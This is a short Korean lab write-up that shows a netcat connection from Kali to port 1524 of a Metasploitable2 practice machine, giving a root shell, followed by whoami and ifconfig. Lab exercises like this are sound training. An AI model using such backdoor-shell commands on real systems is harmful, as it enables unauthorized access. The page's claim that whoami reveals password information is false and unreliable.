 ```
root@kali:~# nc [Metasploitable2 IP주소] 1524 //netcat에 Metasploitable2의 IP와 포트번호를 입력.
root@metasploitable:/# whoami
root@metasploitable:/# ifconfig
```

netcat을 사용하면 Metasploitable의 shell을 얻을 수 있다는 것을 확인할 수 있다.

whoami 커맨드로 암호 정보를 알아내 우리는 root 권한을 가질 수 있게 된다.

그러면 ifconfig로 IP 정보를 확인할 수 있다.


![2_22](./image2/Screenshot_2020-07-16_08-23-48.png)
